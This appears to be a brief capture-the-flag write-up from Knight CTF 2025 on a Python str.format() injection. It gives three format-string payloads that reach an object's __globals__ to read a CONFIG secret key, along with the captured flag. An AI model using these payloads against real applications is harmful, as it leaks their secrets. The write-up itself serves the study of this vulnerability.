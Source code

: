 ```yaml
---
date: 2025-01-22
description: python str.format() vuln
platform: Knight CTF 2025
categories: Pwn
tags:
  - python-injection
duration:
---
```

# Vulnerability
using string formatting can be used to access variables and objects details can lead to unintended sensitive data leak
```
{person_obj.__class__.__init__.__globals__}
{person_obj.__init__.__globals__}
{person_obj.__init__.__globals__[CONFIG][KEY]}
```
`KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}

https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/
